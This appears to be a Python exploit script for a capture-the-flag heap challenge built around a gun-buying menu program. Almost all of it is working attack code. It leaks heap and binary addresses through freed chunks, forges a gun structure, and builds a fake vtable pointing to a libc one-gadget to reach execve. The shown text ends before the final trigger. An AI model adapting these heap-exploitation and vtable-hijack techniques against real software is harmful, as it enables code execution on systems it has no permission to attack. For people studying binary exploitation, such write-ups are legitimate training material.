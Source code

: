 ```python

####################### leak heap ####################
buy_gun(1, 24, 'a' * 5 + '\n')
buy_gun(1, 24, 'b' * 5 + '\n')
drop_gun(1)
select_gun(0)
drop_gun(0)
leak_heap = u32(use_gun(0, [-1])[:4])
heap_base = leak_heap - 19032
print "heap base addr:", hex(heap_base) #heap base + 0x4a08 is the first chunk


#fast consolate
buy_gun(1, 100000, 'a' * 100 + '\n')
drop_gun(0)

################### leak binary #############################
buy_gun(1, 19, 'a' * 19)
rename_gun(0, 600, 'b' * 10 + '\n')
buy_gun(1, 30, 'a' * 30)
buy_gun(1, 30, 'b' * 30)
select_gun(1)
drop_gun(1)
drop_gun(0)
rename_gun(2, 100000, '\n')

fake_gun_st = [
        heap_base + 0x4a38,                    #vtable 
        heap_base + 0x4cc8, #name
        15,                 #nmax_bullets
        15,                 #ncur_bullets
        ]
gun_st = "".join([ p32(_) for _ in fake_gun_st ])


rename_gun(2, 680, 'A' * 24 + gun_st + '\n')

vtable_addr = u32(use_gun(1, [-1])[:4])
print "vtable_addr:", hex(vtable_addr)
elf.address = vtable_addr - 0x1d30
print "elf addr:", hex(elf.address)

################## malloc big chunk #############################
# sz = ((heap_base + 0x1000000) & (0xff000000)) + 0x6873 - heap_base
# print "name chunk size:", sz
# buy_gun(1, sz, '\n')

################## vtable to execve ##################################

#set vtable
set_gun_name_addr = 0x149c
execve_gadget = libc.offset_to_vaddr(0x3ac69)
print "onegadget: ", hex(execve_gadget)
fake_vtable = [ elf.offset_to_vaddr(set_gun_name_addr), execve_gadget, 0 ]
vtable = "".join([ p32(_) for _ in fake_vtable ])

# #set free chunk
# free_chunk= [
#         0x0,
#         56 | 0x1,
#         elf.address + 0x3fa1,
#         0x0,
#         ]
```